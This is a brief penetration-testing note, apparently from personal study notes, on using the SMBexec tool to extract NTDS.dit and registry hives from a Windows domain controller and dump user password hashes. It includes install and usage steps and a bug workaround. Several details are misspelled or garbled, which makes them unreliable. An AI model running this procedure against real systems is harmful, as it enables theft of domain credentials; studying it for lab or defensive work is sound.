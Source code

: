 The user hashes is stored in a database called ntds.net

We will gather user hashes using the tool **SMBexec**.
This application is made to grab the sysreg jeys and ntds.dit file using the Shadow Copy functionality.

- Download it:
````
git clone https://github.com/brav0hax/smbexec.git
````
- Do this:
````
cd smbexec/

sudo ./install.sh

#select 1

#press Enter to install to the /opt
````
- Execute it:
````
cd /opt/smbexec

./smbexec.rb

#select number 3 to obtain the hashes

#choose number 1

#fill the values
````
- If the file cracked is **empty** do this:
	- Maybe you'll get the error `[!] Error! syshive not specified!`
	- The tool responsible for this is **ntdsextract** and **smbexec** is bugged
	- Go to the route /opt/smbexec/lib/modules/hasdump
	- Edit the file called hashesdc.rb
	- Change to this:
	![[dsusers.png]]
	- Now repeat the initial process and it should work :)
	- Whe have found the passwords dumped and the system controller.-